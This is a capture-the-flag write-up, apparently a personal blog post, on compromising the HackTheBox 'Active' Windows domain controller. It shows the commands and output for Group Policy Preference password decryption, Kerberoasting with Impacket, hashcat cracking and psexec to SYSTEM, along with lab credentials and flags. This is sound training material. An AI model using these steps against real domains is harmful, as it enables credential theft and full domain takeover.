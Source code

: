 
---
title: "Active"
summary: "Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment. This machine teaches us about Group Policy Preferences Passwords from Windows and how to abuse them."
categories: ["Post","Blog",]
tags: ["post","hackthebox","windows"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Windows      |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.10.100 |
- - -
## Enumeration

Let's begin the enumeration with `Nmap`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV --min-rate 2000 -T5 -n -Pn 10.10.10.100 -oN ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 18:47:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-04T18:48:37
|_  start_date: 2025-01-04T18:21:40
|_clock-skew: -1s
```

There are quite a few ports open. We can begin the enumeration by checking if there is any information on **SMB** shares:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ smbclient -N -L \\10.10.10.100 

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

The _Replication_ share has some info that we can access:

```bash
smb: \> ls

  active.htb                          D        0  Sat Jul 21 00:37:44 2018
```

- - -
## Credential Gathering
We discover a password on `Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ cat Groups.xml 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

The file **Groups.xml** is automatically created on the `SYSVOL` share when a _Group Policy Preference_ is created. The file contains Groups related information, even passwords. These are encrypted with a private key from Microsoft, but it was published by accident.

This is quite old (from around 2014) but is great knoledge to have, as if a system contains old files wich contain a password encrypted from a _Group Policy Preference_, it can be decripted with the tool `gpp-decrypt`.

```bash
┌──(s3n㉿kali)-[~]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

After finding the password for the _SVC_TGS_ user, we should take a look of the shares that we couldn't access, such as **Users**, to check if we obtained any privilege on it.

```bash
┌──(s3n㉿kali)-[~]
└─$ smbclient \\\\10.10.10.100\\Users -W active.htb -U SVC_TGS 
Password for [ACTIVE.HTB\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018
```

It looks like it worked! We enumerate again but we don't find anything relevant.

>We could claim the user flag in the SVC_TGS/Desktop directory but I won't do it, as it wouldn't count in exams like OSCP, as you need an interactive shell.

With user _SVC_TGS_ it seems that we don't have a way of getting a foothold on the machine as I tried to RDP. However, we can continue enumerating the internal network as we have valid credentials with this user.

- - -
## Kerberoasting
**Kerberoasting** is a post-exploitation technique we can use when assessing Active Directory (AD) environments. The objective is to obtain the password hash of a service account associated with a _Service Principal Name_ (SPN). SPNs are attributes in AD that uniquely tie a service to a user account, enabling Kerberos authentication.

In this scenario, as authenticated domain users, we request a Kerberos service ticket for an SPN. The domain controller generates the ticket and encrypts it using the NTLM hash of the service account password linked to the SPN. This ticket is then provided to us. At this stage, we don’t require elevated privileges—just a valid domain user account to request the ticket.

Once we retrieve the encrypted ticket, we can crack it offline using tools like `Hashcat`. If successful, we recover the plaintext password of the service account.

We can try to check for users SPNs with Impacket's `GetUserSPN` tool:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon/Users_Share]
└─$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 09:06:40.351723  2025-01-04 08:22:56.876969             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8
```

Nice! We got the Now, we can try to crack this hash with `hashcat`:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8:Ticketmaster1968
```

We found Administrator's password with value **Ticketmaster1968**. We can try to abuse SMB to stablish a shell with `psexec`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec Administrator@10.10.10.100        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file zOdNJqkf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service ROhE on 10.10.10.100.....
[*] Starting service ROhE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Now we can read both flags:

```powershell
C:\> type C:\Users\SVC_TGS\Desktop\user.txt  
40538eb1a29a0cef0b8d9a4d7a3a387f
```

```powershell
C:\> type C:\Users\Administrator\Desktop\root.txt
b8737ca7bc28f8b9dcce856e5226956d
```


